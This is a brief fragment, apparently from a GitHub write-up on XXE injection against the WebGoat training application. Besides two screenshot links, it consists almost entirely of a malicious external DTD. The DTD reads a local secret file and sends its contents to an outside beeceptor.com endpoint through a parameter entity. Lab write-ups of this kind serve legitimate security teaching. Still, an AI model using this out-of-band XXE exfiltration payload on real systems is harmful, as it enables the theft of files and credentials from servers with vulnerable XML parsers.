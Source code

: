 ![image](https://github.com/eagleatman/Injection/blob/master/%E6%B3%A8%E5%85%A5/XXE/media/image-20211010214630900.png)

~~~xml
# attack.dtd
<?xml version="1.0" encoding="utf-8"?>
<!ENTITY % file SYSTEM "file:///home/webgoat/.webgoat-8.2.2//XXE/secret.txt">
<!ENTITY % send "<!ENTITY xxe SYSTEM 'https://e0g18.free.beeceptor.com/?xxe=%file;'>">
%send;
~~~



![image](https://github.com/eagleatman/Injection/blob/master/%E6%B3%A8%E5%85%A5/XXE/media/image-20211010214853316.png)
